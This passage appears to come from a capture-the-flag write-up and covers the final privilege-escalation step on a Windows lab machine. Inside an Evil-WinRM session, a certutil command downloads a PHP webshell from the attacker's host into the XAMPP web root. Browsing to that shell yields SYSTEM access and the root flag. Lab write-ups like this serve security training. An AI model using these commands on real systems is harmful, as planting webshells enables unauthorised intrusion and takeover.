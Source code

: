 ```powershell
*Evil-WinRM* PS C:\xampp\htdocs> certutil -urlcache -f http://10.10.14.2:8000/shell.php shell.php
```

Browsing to the uploaded shell on the Windows machine successfully obtains another webshell in the context of the `NT Authority` user.

The root flag is found.

```powershell
DC$@DC:C:\xampp\htdocs# whoami
nt authority\system

DC$@DC:C:\xampp\htdocs# type c:\Users\Administrator\Desktop\root.txt
<REDACTED>
```